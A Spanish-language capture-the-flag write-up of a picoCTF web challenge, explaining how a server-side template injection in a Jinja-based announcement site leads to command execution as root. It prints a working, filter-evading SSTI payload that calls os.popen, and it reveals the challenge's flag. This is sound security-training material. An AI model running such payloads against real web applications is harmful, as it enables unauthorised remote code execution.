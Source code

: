 #notas_hacking #web #examen

## Descripción

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:62972/)!

## Solución

Ingresamos al sitio web.
Vemos un recuadro en donde ingresamos texto y al dar click en el botón ok solamente se crea una etiqueta con lo que ingresamos en el recuadro.
De acuerdo al nombre del reto y a la pista: Server Side Template Injection, investigo al respecto.
Pruebo ingresando la siguiente plantilla:
```
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`
```

Obtengo lo siguiente: 
`uid=0(root) gid=0(root) groups=0(root)`

Modifico la plantilla cambiando `id` por cat flag, vuelvo a enviar y obtengo la bandera. `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}`

## Notas adicionales

- Una inyección de plantilla del lado del servidor es una vulnerabilidad que ocurre cuando un servidor procesa la entrada del usuario como una plantilla.
- Las plantillas se pueden usar cuando solo es necesario cambiar detalles menores de una página según las circunstancias.


## Referencias

https://onsecurity-io.translate.goog/article/server-side-template-injection-with-jinja2/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc